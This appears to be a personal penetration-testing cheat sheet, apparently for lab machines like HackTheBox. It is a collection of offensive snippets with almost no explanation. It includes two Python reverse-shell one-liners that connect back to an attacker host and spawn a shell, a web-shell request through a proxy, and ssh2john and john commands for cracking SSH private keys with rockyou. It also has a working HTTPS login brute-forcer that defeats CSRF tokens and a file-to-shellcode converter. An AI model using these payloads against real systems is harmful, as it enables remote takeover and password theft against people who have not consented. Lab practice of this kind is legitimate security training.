 # proxies in script
```python
proxies = {'http':'http://127.0.0.1:8080'}
r2 = requests.get(WEB_SHELL, params=command, verify=False, proxies=proxies)
```


# Python Reverse Shell  
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'  
# Bash jump  
python -c 'import pty;pty.spawn("/bin/bash")'  
python3 -c 'import pty;pty.spawn("/bin/bash")'  
  
base64.b64encode('A string'.encode('UTF-8')).decode('ascii')  
  
python ssh2john.py id_rsa > john.txt  
ssh2john id_rsa > brainfuck.txt  
john john.txt --wordlist=/usr/share/wordlists/rockyou.txt  
john brainfuck.txt --wordlist=/usr/share/wordlists/rockyou.txt  
#####################HTTPS POST BRUTE############################  
import requests  
from requests.packages.urllib3.exceptions import InsecureRequestWarning  
import re  
  
re_csrf = 'csrfMagicToken = "(.*?)"'  
  
s = requests.session()  
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)  
lines = open('passwords.txt')  
for password in lines:  
    r = s.post('https://10.10.10.60/index.php', verify=False)  
    csrf = re.findall(re_csrf, r.text)[0]  
    login = {'__csrf_magic': csrf, 'usernamefld': 'rohit', 'passwordfld': password[:-1], 'login': 'Login'}  
    r = s.post('https://10.10.10.60/index.php', data=login, verify=False)  
    if "Dashboard" in r.text:  
        print("Valid login: %s@%s " % ("rohit", password[:-1]))  
        s.cookies.clear()  
    else:  
        print("Failed: %s@%s" % ("rohit", password[:-1]))  
        s.cookies.clear()  
################################################################  
file = open("etc.bin", "rb")  
byte = file.read(1)  
while byte:  
  print("\\x"+byte.hex(), end="")  
  byte = file.read(1)  
file.close()  
^Generate shellcode bytes from file  
#################################################################  
#reverse shell  
exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'